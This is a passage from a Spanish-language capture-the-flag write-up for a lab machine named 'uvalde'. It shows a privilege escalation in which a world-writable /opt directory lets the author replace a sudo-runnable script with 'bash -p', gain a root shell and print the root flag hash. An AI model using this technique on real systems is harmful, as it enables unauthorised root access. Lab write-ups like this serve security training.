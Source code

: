 ```bash

echo -e "\n${ROUGE}Pay 0.000047 BTC to 3FZbgi29cpjq2GjdwV8eyHuJJnkLtktZc5 to unlock backdoor.${RESET}\n"
```

Pero no veremos nada interesante, ahora si listamos la carpeta `/opt` veremos esto:

```
drwx---rwx  2 root root 4096 Feb  5  2023 .
drwxr-xr-x 18 root root 4096 Jan 22  2023 ..
-rw-r--r--  1 root root 1594 Jan 31  2023 superhack
```

Vemos que el archivo esta dentro del `/opt` con estos permisos:

```
drwx---rwx
```

Por lo que podremos hacer una cosa con dicho archivo:

```shell
mv superhack superhack_old
nano superhack

#Dentro del nano
#!/bin/bash

bash -p
```

Lo guardamos y le establecemos permisos de ejecuccion.

```shell
chmod +x superhack
```

Ahora si lo ejecutamos de esta forma:

```shell
sudo bash /opt/superhack
```

Info:

```
root@uvalde:/opt# whoami
root
```

Veremos que seremos `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
59ec54537e98a53691f33e81500f56da
```
